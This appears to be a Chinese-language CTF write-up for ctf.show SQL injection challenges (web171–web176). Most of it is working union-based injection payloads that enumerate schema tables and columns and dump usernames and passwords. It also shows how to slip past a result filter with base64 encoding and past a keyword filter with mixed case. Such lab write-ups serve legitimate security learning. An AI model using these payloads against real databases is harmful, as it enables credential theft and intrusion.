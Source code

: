 ### web171

```
$sql = "select username,password from user where username !='flag' and id = '".$_GET['id']."' limit 1;";
```

显然字符型注入，且只回显1条

```
 http://ff9bfe2a-5898-4dea-b591-89cd68ab7a67.challenge.ctf.show/select-waf.php1 order by 3
-1' union select 1,2,3 --+
-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+
-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='ctfshow_user' --+
-1' union select id,username,password from ctfshow_user --+
```

### web172

同上不过库名变成了ctfshow_user2

### web173 返回结果过滤flag

查询语句依旧不变

但注意这次多了一个waf

```
//检查结果是否有flag
    if(!preg_match('/flag/i', json_encode($ret))){
      $ret['msg']='查询成功';
    }
      
```

所以不管是查询内容还是显示的内容都不能存在flag

好办将第二列显示flag的编码一下即可

```
其余查询语句依旧
-1' union select id,to_base64(username),password from ctfshow_user3 --+
```

### web176 大写绕过union select

题目提示有过滤，但不知道过滤了什么，一步步探测

发现应该是过滤了union select

但是由于sql语句本身对语句是不区分大小写的，所以尝试大小写绕过

```
-1' uniOn seleCt 1,2,password from ctfshow_user --+ 
```
